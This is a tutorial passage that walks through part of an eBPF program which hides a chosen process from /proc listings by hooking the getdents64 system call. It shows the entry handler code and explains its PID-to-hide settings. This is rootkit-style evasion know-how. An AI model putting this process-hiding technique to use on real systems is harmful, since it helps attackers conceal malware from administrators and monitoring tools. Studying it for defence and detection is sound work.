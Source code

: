 In the next part of the code, the program defines a structure called "linux_dirent64", which represents a Linux directory entry. The program then defines two functions, "handle_getdents_enter" and "handle_getdents_exit", which are called at the entry and exit of the getdents64 system call, respectively, and are used to implement operations on the directory entry.

```c

// Optional Target Parent PID
const volatile int target_ppid = 0;

// These store the string represenation
// of the PID to hide. This becomes the name
// of the folder in /proc/
const volatile int pid_to_hide_len = 0;
const volatile char pid_to_hide[MAX_PID_LEN];

// struct linux_dirent64 {
//     u64        d_ino;    /* 64-bit inode number */
//     u64        d_off;    /* 64-bit offset to next structure */
//     unsigned short d_reclen; /* Size of this dirent */
//     unsigned char  d_type;   /* File type */
//     char           d_name[]; /* Filename (null-terminated) */ }; 
// int getdents64(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count);
SEC("tp/syscalls/sys_enter_getdents64")
int handle_getdents_enter(struct trace_event_raw_sys_enter *ctx)
{
    size_t pid_tgid = bpf_get_current_pid_tgid();
    // Check if we're a process thread of interest
    // if target_ppid is 0 then we target all pids
    if (target_ppid != 0) {
        struct task_struct *task = (struct task_struct *)bpf_get_current_task();
        int ppid = BPF_CORE_READ(task, real_parent, tgid);
        if (ppid != target_ppid) {
            return 0;
        }
    }
    int pid = pid_tgid >> 32;
    unsigned int fd = ctx->args[0];
    unsigned int buff_count = ctx->args[2];

    // Store params in map for exit function
    struct linux_dirent64 *dirp = (struct linux_dirent64 *)ctx->args[1];
    bpf_map_update_elem(&map_buffs, &pid_tgid, &dirp, BPF_ANY);

    return 0;
}
```

In this section of the code, we can see part of the implementation of the eBPF program that is responsible for the processing at the entry point of the `getdents64` system call.

We start by declaring a few global variables. The `target_ppid` represents the PID of the target parent we want to focus on, and if this value is 0, then we will focus on all processes. `pid_to_hide_len` and `pid_to_hide` are used to store the length of the PID of the process we want to hide from, and the PID itself, respectively. This PID is translated into the name of a folder in the `/proc/` directory, so the hidden process will not be visible in the `/proc/` directory.
